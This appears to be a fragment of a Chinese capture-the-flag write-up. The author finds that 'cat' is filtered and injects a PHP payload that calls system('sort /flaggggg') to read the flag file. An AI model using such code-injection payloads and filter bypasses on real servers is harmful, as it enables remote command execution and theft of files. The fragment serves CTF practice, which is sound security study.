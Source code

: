![image-20240125152347579](image/image-20240125152347579.png)

cat无法读取，应该是有过滤

试一下sort

```
name=<?php system("sort /flaggggg");?>
```

